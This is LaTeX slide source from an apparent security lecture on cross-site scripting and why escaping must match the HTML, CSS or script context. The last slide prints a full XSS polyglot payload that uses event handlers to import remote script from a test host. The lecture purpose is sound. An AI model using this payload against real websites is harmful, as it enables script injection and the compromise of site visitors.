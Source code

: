 \begin{frame}[fragile]{dangerous inputs: context}
\begin{itemize}
\item problem: need to match context!
\end{itemize}
\begin{Verbatim}[fontsize=\small]
<a href=USER INPUT>
<style type="text/css"
p.some-class {
    font: "USER INPUT", Helvetica, serif;
}
</style>
<script>
if (x == "USER INPUT") {
    ...
}
</script>
\end{Verbatim}
\end{frame}

\begin{frame}{a recent paper}
\includegraphics[width=\textwidth]{../web/kirchner-title}
\end{frame}

\begin{frame}[fragile]{example input}
(with added newlines)
\begin{Verbatim}
jaVasCript:/*-/*`/*\\`/*'/*\"/**/(/* */oNcliCk=
import('http://testbed:8080/xss.js') )//%0D%0A
%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>
\x3csVg/
<sVg/oNloAd=import('http://testbed:8080/xss.js')//>\x3e
\end{Verbatim}
\end{frame}
